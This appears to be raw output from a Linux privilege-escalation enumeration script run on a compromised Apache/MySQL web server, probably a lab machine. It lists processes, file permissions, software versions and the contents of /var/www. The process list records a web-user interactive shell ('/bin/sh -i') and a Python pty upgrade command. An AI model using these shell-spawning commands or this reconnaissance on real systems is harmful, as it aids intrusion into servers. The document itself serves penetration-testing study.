root        53  0.0  0.0      0     0 ?        S<   23:08   0:00 [kthrotld]
root        54  0.0  0.0      0     0 ?        S<   23:08   0:00 [acpi_thermal_pm]
root        55  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root        58  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root        59  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root        60  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root        61  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root        62  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root        63  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_0]
root        64  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_0]
root        65  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_1]
root        66  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_1]
root        72  0.0  0.0      0     0 ?        S<   23:08   0:00 [ipv6_addrconf]
root        85  0.0  0.0      0     0 ?        S<   23:08   0:00 [deferwq]
root        86  0.0  0.0      0     0 ?        S<   23:08   0:00 [charger_manager]
root       132  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_2]
root       133  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_3]
root       134  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_2]
root       135  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_3]
root       136  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_4]
root       137  0.0  0.0      0     0 ?        S<   23:08   0:00 [ttm_swap]
root       138  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_4]
root       139  0.0  0.0      0     0 ?        S<   23:08   0:00 [vmw_pvscsi_wq_3]
root       140  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_5]
root       141  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_5]
root       142  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_6]
root       143  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_6]
root       144  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_7]
root       145  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_7]
root       146  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_8]
root       147  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_8]
root       148  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_9]
root       149  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_9]
root       150  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_10]
root       151  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_10]
root       152  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_11]
root       153  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_11]
root       154  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_12]
root       155  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_12]
root       156  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_13]
root       157  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_13]
root       158  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_14]
root       159  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_14]
root       160  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_15]
root       161  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root       162  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_15]
root       164  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_16]
root       165  0.0  0.0      0     0 ?        S<   23:08   0:00 [kpsmoused]
root       167  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_16]
root       168  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_17]
root       169  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_17]
root       171  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_18]
root       172  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_18]
root       173  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_19]
root       174  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_19]
root       175  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_20]
root       176  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_20]
root       177  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_21]
root       178  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_21]
root       179  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_22]
root       180  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_22]
root       181  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_23]
root       182  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_23]
root       183  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_24]
root       184  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_24]
root       185  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_25]
root       186  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_25]
root       187  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_26]
root       188  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_26]
root       189  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_27]
root       190  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_27]
root       191  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_28]
root       192  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_28]
root       193  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_29]
root       194  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_29]
root       195  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_30]
root       196  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_30]
root       198  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_31]
root       199  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_31]
root       200  0.0  0.0      0     0 ?        S    23:08   0:00 [scsi_eh_32]
root       201  0.0  0.0      0     0 ?        S<   23:08   0:00 [scsi_tmf_32]
root       245  0.0  0.0      0     0 ?        S    23:08   0:00 [kworker/u4:27]
root       246  0.0  0.0      0     0 ?        S    23:08   0:00 [kworker/u4:28]
root       271  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root       277  0.0  0.0      0     0 ?        S<   23:08   0:00 [kworker/0:1H]
root       340  0.0  0.0      0     0 ?        S<   23:08   0:00 [raid5wq]
root       364  0.0  0.0      0     0 ?        S<   23:08   0:00 [kdmflush]
root       366  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root       374  0.0  0.0      0     0 ?        S<   23:08   0:00 [kdmflush]
root       375  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root       392  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root       417  0.0  0.0      0     0 ?        S    23:08   0:00 [jbd2/dm-0-8]
root       418  0.0  0.0      0     0 ?        S<   23:08   0:00 [ext4-rsv-conver]
root       465  0.0  0.0      0     0 ?        S<   23:08   0:00 [kworker/1:1H]
root       483  0.0  0.0      0     0 ?        S<   23:08   0:00 [iscsi_eh]
root       487  0.0  0.2  30412  2692 ?        Ss   23:08   0:00 /lib/systemd/systemd-journald
root       494  0.0  0.0      0     0 ?        S    23:08   0:00 [kworker/0:3]
root       496  0.0  0.0      0     0 ?        S    23:08   0:00 [kauditd]
root       501  0.0  0.0      0     0 ?        S<   23:08   0:00 [ib_addr]
root       514  0.0  0.0      0     0 ?        S<   23:08   0:00 [ib_mcast]
root       516  0.0  0.0      0     0 ?        S<   23:08   0:00 [ib_nl_sa_wq]
root       517  0.0  0.0      0     0 ?        S<   23:08   0:00 [ib_cm]
root       519  0.0  0.0      0     0 ?        S<   23:08   0:00 [iw_cm_wq]
root       520  0.0  0.3 105024  3744 ?        Ss   23:08   0:00 /sbin/lvmetad -f
root       521  0.0  0.0      0     0 ?        S<   23:08   0:00 [rdma_cm]
root       549  0.2  0.4  46776  4268 ?        Ss   23:08   0:00 /lib/systemd/systemd-udevd
root       875  0.0  0.0      0     0 ?        S<   23:08   0:00 [ext4-rsv-conver]
systemd+   899  0.0  0.2 102372  2484 ?        Ssl  23:08   0:00 /lib/systemd/systemd-timesyncd
root       901  0.0  0.0      0     0 ?        S    23:08   0:00 [kworker/1:4]
root      1029  0.0  0.1  97416  1332 ?        Ssl  23:08   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
root      1033  0.0  0.2  29784  2976 ?        Ss   23:08   0:00 /usr/sbin/cron -f
root      1036  0.0  0.1   6448  1272 ?        Ss   23:08   0:00 /usr/sbin/acpid
syslog    1039  0.0  0.3 258444  3236 ?        Ssl  23:08   0:00 /usr/sbin/rsyslogd -n
message+  1040  0.0  0.3  44948  3768 ?        Ss   23:08   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root      1085  0.0  0.6 276536  6136 ?        Ssl  23:08   0:00 /usr/lib/accountsservice/accounts-daemon
daemon    1088  0.0  0.2  28100  2204 ?        Ss   23:08   0:00 /usr/sbin/atd -f
root      1094  0.0  0.0      0     0 ?        S    23:08   0:00 [kworker/0:4]
root      1097  0.0  0.1  22156  1232 ?        Ss   23:08   0:00 /lib/systemd/systemd-logind
root      1099  0.0  0.9 186380  9660 ?        Ssl  23:08   0:00 /usr/bin/vmtoolsd
root      1105  1.2  2.3 213520 23504 ?        Ssl  23:08   0:05 /usr/lib/snapd/snapd
root      1129  0.0  0.0  15424   168 ?        Ss   23:08   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root      1152  0.0  0.5 279236  5924 ?        Ssl  23:08   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1249  0.0  0.5  67576  5452 ?        Ss   23:08   0:00 /usr/sbin/sshd -D
root      1271  0.0  0.0   7272   152 ?        Ss   23:08   0:00 /sbin/iscsid
root      1272  0.0  0.4   7772  4556 ?        S<Ls 23:08   0:00 /sbin/iscsid
mysql     1291  0.0 16.1 1248960 164516 ?      Ssl  23:08   0:00 /usr/sbin/mysqld
root      1358  0.0  0.2  21672  2220 ?        Ss   23:08   0:00 /usr/sbin/irqbalance --pid=/var/run/irqbalance.pid
root      1424  0.0  2.5 306952 25612 ?        Ss   23:08   0:00 /usr/sbin/apache2 -k start
root      1431  0.0  0.1  16708  1752 tty1     Ss+  23:08   0:00 /sbin/agetty --noclear tty1 linux
www-data  1442  0.0  0.7 306976  8072 ?        S    23:08   0:00 /usr/sbin/apache2 -k start
www-data  1443  0.0  1.4 307104 15200 ?        S    23:08   0:00 /usr/sbin/apache2 -k start
www-data  1444  0.0  1.5 307416 15688 ?        S    23:08   0:00 /usr/sbin/apache2 -k start
www-data  1445  0.0  1.4 307412 14928 ?        S    23:08   0:00 /usr/sbin/apache2 -k start
www-data  1446  0.0  1.5 307412 15380 ?        S    23:08   0:00 /usr/sbin/apache2 -k start
www-data  1470  0.0  0.7 306976  8072 ?        S    23:08   0:00 /usr/sbin/apache2 -k start
www-data  1599  0.0  0.0      0     0 ?        Z    23:11   0:00 [sh] <defunct>
www-data  1602  0.0  0.7 169440  7196 ?        Ss   23:11   0:00 php
www-data  1603  0.0  0.0   6556   744 ?        S    23:11   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data  1607  0.0  0.0   6556   708 ?        S    23:11   0:00 /bin/sh -i
www-data  1608  0.0  0.8  37844  8440 ?        S    23:11   0:00 python3 -c import pty;pty.spawn("/bin/bash")
www-data  1609  0.0  0.3  20264  3292 pts/0    Ss   23:11   0:00 /bin/bash
root      1623  0.0  0.0      0     0 ?        S    23:13   0:00 [kworker/u4:0]
www-data  1640  0.0  0.3  20944  3648 pts/0    S+   23:16   0:00 bash
www-data  1641  0.0  0.3  20992  3272 pts/0    S+   23:16   0:00 bash
www-data  1642  0.0  0.0   6432   652 pts/0    S+   23:16   0:00 tee -a
www-data  1804  0.0  0.2  20976  2568 pts/0    S+   23:16   0:00 bash
www-data  1805  0.0  0.2  36480  2864 pts/0    R+   23:16   0:00 ps aux


Process binaries & associated permissions (from above list):
-rwxr-xr-x 1 root root  1037528 May 16  2017 /bin/bash
lrwxrwxrwx 1 root root        4 Apr 18  2017 /bin/sh -> dash
-rwxr-xr-x 1 root root   326224 Feb 15  2017 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root   618520 Feb 15  2017 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   141904 Feb 15  2017 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root   453240 Feb 15  2017 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root    44104 Dec 16  2016 /sbin/agetty
lrwxrwxrwx 1 root root       20 Feb 15  2017 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root   783984 Dec  9  2016 /sbin/iscsid
-rwxr-xr-x 1 root root    51336 Apr 16  2016 /sbin/lvmetad
-rwxr-xr-x 1 root root   513216 Feb 20  2017 /sbin/mdadm
-rwxr-xr-x 1 root root   224208 Jan 12  2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root    18504 May 18  2017 /usr/bin/lxcfs
-rwxr-xr-x 1 root root    44528 Feb  9  2017 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root   164928 Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root    15048 Jan 18  2016 /usr/lib/policykit-1/polkitd
-rwxr-xr-x 1 root root 19613424 Apr 29  2017 /usr/lib/snapd/snapd
-rwxr-xr-x 1 root root    48112 Apr  9  2016 /usr/sbin/acpid
-rwxr-xr-x 1 root root   658400 May  6  2017 /usr/sbin/apache2
-rwxr-xr-x 1 root root    26632 Jan 15  2016 /usr/sbin/atd
-rwxr-xr-x 1 root root    44472 Apr  6  2016 /usr/sbin/cron
-rwxr-xr-x 1 root root    48440 Apr 11  2016 /usr/sbin/irqbalance
-rwxr-xr-x 1 root root 24754056 Apr 27  2017 /usr/sbin/mysqld
-rwxr-xr-x 1 root root   599328 Apr  5  2016 /usr/sbin/rsyslogd
-rwxr-xr-x 1 root root   799216 Mar 16  2017 /usr/sbin/sshd


/etc/init.d/ binary permissions:
total 324
drwxr-xr-x  2 root root 4096 Jun 23  2017 .
drwxr-xr-x 92 root root 4096 Jun 23  2017 ..
-rw-r--r--  1 root root 1264 Jun 23  2017 .depend.boot
-rw-r--r--  1 root root 1065 Jun 23  2017 .depend.start
-rw-r--r--  1 root root 1209 Jun 23  2017 .depend.stop
-rw-r--r--  1 root root 2427 Jan 19  2016 README
-rwxr-xr-x  1 root root 2243 Feb 10  2016 acpid
-rwxr-xr-x  1 root root 2210 Apr  6  2016 apache-htcacheclean
-rwxr-xr-x  1 root root 8087 Apr  6  2016 apache2
-rwxr-xr-x  1 root root 6223 Mar  4  2017 apparmor
-rwxr-xr-x  1 root root 2799 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1071 Dec  6  2015 atd
-rwxr-xr-x  1 root root 1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x  1 root root 3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x  1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x  1 root root 9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x  1 root root 1343 Apr  4  2016 console-setup
-rwxr-xr-x  1 root root 3049 Apr  6  2016 cron
-rwxr-xr-x  1 root root  937 Mar 28  2015 cryptdisks
-rwxr-xr-x  1 root root  896 Mar 28  2015 cryptdisks-early
-rwxr-xr-x  1 root root 2813 Dec  2  2015 dbus
-rwxr-xr-x  1 root root 1105 Mar 15  2016 grub-common
-rwxr-xr-x  1 root root 1336 Jan 19  2016 halt
-rwxr-xr-x  1 root root 1423 Jan 19  2016 hostname.sh
-rwxr-xr-x  1 root root 3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x  1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x  1 root root 1503 Mar 29  2016 iscsid
-rwxr-xr-x  1 root root 1804 Apr  4  2016 keyboard-setup
-rwxr-xr-x  1 root root 1300 Jan 19  2016 killprocs
-rwxr-xr-x  1 root root 2087 Dec 21  2015 kmod
-rwxr-xr-x  1 root root  695 Oct 30  2015 lvm2
-rwxr-xr-x  1 root root  571 Oct 30  2015 lvm2-lvmetad
-rwxr-xr-x  1 root root  586 Oct 30  2015 lvm2-lvmpolld
-rwxr-xr-x  1 root root 2300 Feb  3  2017 lxcfs
-rwxr-xr-x  1 root root 2541 Feb  3  2017 lxd
-rwxr-xr-x  1 root root 2611 Apr 11  2016 mdadm
-rwxr-xr-x  1 root root 1199 Jul 16  2014 mdadm-waitidle
-rwxr-xr-x  1 root root  703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x  1 root root 2301 Jan 19  2016 mountall.sh
-rwxr-xr-x  1 root root 1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x  1 root root 1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x  1 root root  711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x  1 root root 2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x  1 root root 5607 Jul 11  2016 mysql
-rwxr-xr-x  1 root root 4771 Jul 20  2015 networking
-rwxr-xr-x  1 root root 1581 Oct 16  2015 ondemand
-rwxr-xr-x  1 root root 2503 Mar 29  2016 open-iscsi
-rwxr-xr-x  1 root root 1578 Sep 18  2016 open-vm-tools
-rwxr-xr-x  1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x  1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x  1 root root 1192 Sep  6  2015 procps
-rwxr-xr-x  1 root root 6366 Jan 19  2016 rc
-rwxr-xr-x  1 root root  820 Jan 19  2016 rc.local
-rwxr-xr-x  1 root root  117 Jan 19  2016 rcS
-rwxr-xr-x  1 root root  661 Jan 19  2016 reboot
-rwxr-xr-x  1 root root 4149 Nov 23  2015 resolvconf
-rwxr-xr-x  1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x  1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x  1 root root 1226 Jun  9  2015 screen-cleanup
-rwxr-xr-x  1 root root 3927 Jan 19  2016 sendsigs
-rwxr-xr-x  1 root root  597 Jan 19  2016 single
-rw-r--r--  1 root root 1087 Jan 19  2016 skeleton
-rwxr-xr-x  1 root root 4077 Apr 28  2016 ssh
-rwxr-xr-x  1 root root 6087 Apr 12  2016 udev
-rwxr-xr-x  1 root root 2049 Aug  7  2014 ufw
-rwxr-xr-x  1 root root 2737 Jan 19  2016 umountfs
-rwxr-xr-x  1 root root 2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x  1 root root 1879 Jan 19  2016 umountroot
-rwxr-xr-x  1 root root 1391 Apr 20  2017 unattended-upgrades
-rwxr-xr-x  1 root root 3111 Jan 19  2016 urandom
-rwxr-xr-x  1 root root 1306 Dec 16  2016 uuidd


### SOFTWARE #############################################
Sudo version:
Sudo version 1.8.16


MYSQL version:
mysql  Ver 14.14 Distrib 5.7.18, for Linux (x86_64) using  EditLine wrapper


Apache version:
Server version: Apache/2.4.18 (Ubuntu)
Server built:   2017-05-05T16:32:00


Apache user configuration:
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


Installed Apache modules:
Action '-M' failed.
The Apache error log may have more information.


Anything in the Apache home dirs?:
/var/www/:
total 24K
drwxr-xr-x  6 root root     4.0K May 12  2017 .
drwxr-xr-x 14 root root     4.0K Apr 18  2017 ..
drwxr-xr-x  7 root root     4.0K Jul 27 01:28 admin
drwxrwxr-x  2 root www-data 4.0K May 12  2017 cmd
drwxr-xr-x  2 root root     4.0K Jun 23  2017 cronjobs
drwxr-xr-x  2 root root     4.0K Jul 27 01:36 html

/var/www/admin:
total 116K
drwxr-xr-x  7 root     root     4.0K Jul 27 01:28 .
drwxr-xr-x  6 root     root     4.0K May 12  2017 ..
-rw-rw-r--  1 www-data www-data  46K Jul 27 01:25 dashboard.php
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 data
-rw-rw-r--  1 www-data www-data  297 Apr 18  2017 db.php
drwxrwxr-x  4 www-data www-data 4.0K Apr 18  2017 dist
-rw-rw-r--  1 www-data www-data   75 Apr 21  2017 index.php
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 js
-rw-rw-r--  1 www-data www-data 4.9K Jul 27 01:19 login.php
-rw-rw-r--  1 www-data www-data  111 Apr 21  2017 logout.php
drwxr-xr-x  2 www-data www-data 4.0K May 12  2017 logs
-rw-rw-r--  1 www-data www-data  18K Jul 27 01:26 tools.php
drwxrwxr-x 14 www-data www-data 4.0K Apr 18  2017 vendor

/var/www/admin/data:
total 52K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxr-xr-x 7 root     root     4.0K Jul 27 01:28 ..
-rw-rw-r-- 1 www-data www-data  38K Apr  4  2017 flot-data.js
-rw-rw-r-- 1 www-data www-data 2.5K Apr  4  2017 morris-data.js

/var/www/admin/dist:
total 16K
drwxrwxr-x 4 www-data www-data 4.0K Apr 18  2017 .
drwxr-xr-x 7 root     root     4.0K Jul 27 01:28 ..
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 css
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 js

/var/www/admin/dist/css:
total 28K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 4 www-data www-data 4.0K Apr 18  2017 ..
-rw-rw-r-- 1 www-data www-data 8.3K Apr  4  2017 sb-admin-2.css
-rw-rw-r-- 1 www-data www-data 6.7K Apr  4  2017 sb-admin-2.min.css

/var/www/admin/dist/js:
total 16K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 4 www-data www-data 4.0K Apr 18  2017 ..
-rw-rw-r-- 1 www-data www-data 1.6K Apr  4  2017 sb-admin-2.js
-rw-rw-r-- 1 www-data www-data  845 Apr  4  2017 sb-admin-2.min.js

/var/www/admin/js:
total 12K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxr-xr-x 7 root     root     4.0K Jul 27 01:28 ..
-rw-rw-r-- 1 www-data www-data 1.4K Apr  4  2017 sb-admin-2.js

/var/www/admin/logs:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K May 12  2017 .
drwxr-xr-x 7 root     root     4.0K Jul 27 01:28 ..
-rw-rw-rw- 1 www-data www-data    0 Jan 24 23:16 access.log

/var/www/admin/vendor:
total 56K
drwxrwxr-x 14 www-data www-data 4.0K Apr 18  2017 .
drwxr-xr-x  7 root     root     4.0K Jul 27 01:28 ..
drwxrwxr-x  5 www-data www-data 4.0K Apr 18  2017 bootstrap
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 bootstrap-social
drwxrwxr-x  5 www-data www-data 4.0K Apr 18  2017 datatables
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 datatables-plugins
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 datatables-responsive
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 flot
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 flot-tooltip
drwxrwxr-x  6 www-data www-data 4.0K Apr 18  2017 font-awesome
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 jquery
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 metisMenu
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 morrisjs
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 raphael

/var/www/admin/vendor/bootstrap:
total 20K
drwxrwxr-x  5 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 14 www-data www-data 4.0K Apr 18  2017 ..
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 css
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 fonts
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 js

/var/www/admin/vendor/bootstrap/css:
total 272K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 5 www-data www-data 4.0K Apr 18  2017 ..
-rw-rw-r-- 1 www-data www-data 143K Apr  4  2017 bootstrap.css
-rw-rw-r-- 1 www-data www-data 119K Apr  4  2017 bootstrap.min.css

/var/www/admin/vendor/bootstrap/fonts:
total 228K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 5 www-data www-data 4.0K Apr 18  2017 ..
-rw-rw-r-- 1 www-data www-data  20K Apr  4  2017 glyphicons-halflings-regular.eot
-rw-rw-r-- 1 www-data www-data 107K Apr  4  2017 glyphicons-halflings-regular.svg
-rw-rw-r-- 1 www-data www-data  45K Apr  4  2017 glyphicons-halflings-regular.ttf
-rw-rw-r-- 1 www-data www-data  23K Apr  4  2017 glyphicons-halflings-regular.woff
-rw-rw-r-- 1 www-data www-data  18K Apr  4  2017 glyphicons-halflings-regular.woff2

/var/www/admin/vendor/bootstrap/js:
total 120K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 5 www-data www-data 4.0K Apr 18  2017 ..
-rw-rw-r-- 1 www-data www-data  69K Apr  4  2017 bootstrap.js
-rw-rw-r-- 1 www-data www-data  37K Apr  4  2017 bootstrap.min.js

/var/www/admin/vendor/bootstrap-social:
total 36K
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 14 www-data www-data 4.0K Apr 18  2017 ..
-rw-rw-r--  1 www-data www-data  20K Apr  4  2017 bootstrap-social.css
-rw-rw-r--  1 www-data www-data 3.1K Apr  4  2017 bootstrap-social.less
-rw-rw-r--  1 www-data www-data 3.3K Apr  4  2017 bootstrap-social.scss

/var/www/admin/vendor/datatables:
total 20K
drwxrwxr-x  5 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 14 www-data www-data 4.0K Apr 18  2017 ..
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 css
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 images
drwxrwxr-x  2 www-data www-data 4.0K Apr 18  2017 js

/var/www/admin/vendor/datatables/css:
total 152K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 5 www-data www-data 4.0K Apr 18  2017 ..
-rw-rw-r-- 1 www-data www-data 4.8K Apr  4  2017 dataTables.bootstrap.css
-rw-rw-r-- 1 www-data www-data 4.2K Apr  4  2017 dataTables.bootstrap.min.css
-rw-rw-r-- 1 www-data www-data 5.3K Apr  4  2017 dataTables.bootstrap4.css
-rw-rw-r-- 1 www-data www-data 4.7K Apr  4  2017 dataTables.bootstrap4.min.css
-rw-rw-r-- 1 www-data www-data 2.9K Apr  4  2017 dataTables.foundation.css
-rw-rw-r-- 1 www-data www-data 2.6K Apr  4  2017 dataTables.foundation.min.css
-rw-rw-r-- 1 www-data www-data  16K Apr  4  2017 dataTables.jqueryui.css
-rw-rw-r-- 1 www-data www-data  14K Apr  4  2017 dataTables.jqueryui.min.css
-rw-rw-r-- 1 www-data www-data 2.6K Apr  4  2017 dataTables.material.css
-rw-rw-r-- 1 www-data www-data 2.4K Apr  4  2017 dataTables.material.min.css
-rw-rw-r-- 1 www-data www-data 2.9K Apr  4  2017 dataTables.semanticui.css
-rw-rw-r-- 1 www-data www-data 2.6K Apr  4  2017 dataTables.semanticui.min.css
-rw-rw-r-- 1 www-data www-data 3.8K Apr  4  2017 dataTables.uikit.css
-rw-rw-r-- 1 www-data www-data 3.3K Apr  4  2017 dataTables.uikit.min.css
-rw-rw-r-- 1 www-data www-data  16K Apr  4  2017 jquery.dataTables.css
-rw-rw-r-- 1 www-data www-data  14K Apr  4  2017 jquery.dataTables.min.css
-rw-rw-r-- 1 www-data www-data  14K Apr  4  2017 jquery.dataTables_themeroller.css

/var/www/admin/vendor/datatables/images:
total 60K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 5 www-data www-data 4.0K Apr 18  2017 ..
-rw-rw-r-- 1 www-data www-data  27K Apr  4  2017 Sorting icons.psd
-rw-rw-r-- 1 www-data www-data  894 Apr  4  2017 favicon.ico
-rw-rw-r-- 1 www-data www-data  160 Apr  4  2017 sort_asc.png
-rw-rw-r-- 1 www-data www-data  148 Apr  4  2017 sort_asc_disabled.png
-rw-rw-r-- 1 www-data www-data  201 Apr  4  2017 sort_both.png
-rw-rw-r-- 1 www-data www-data  158 Apr  4  2017 sort_desc.png
-rw-rw-r-- 1 www-data www-data  146 Apr  4  2017 sort_desc_disabled.png

/var/www/admin/vendor/datatables/js:
total 712K
drwxrwxr-x 2 www-data www-data 4.0K Apr 18  2017 .
drwxrwxr-x 5 www-data www-data 4.0K Apr 18  2017 ..
-rw-rw-r-- 1 www-data www-data 4.5K Apr  4  2017 dataTables.bootstrap.js
-rw-rw-r-- 1 www-data www-data 2.0K Apr  4  2017 dataTables.bootstrap.min.js
-rw-rw-r-- 1 www-data www-data 4.6K Apr  4  2017 dataTables.bootstrap4.js
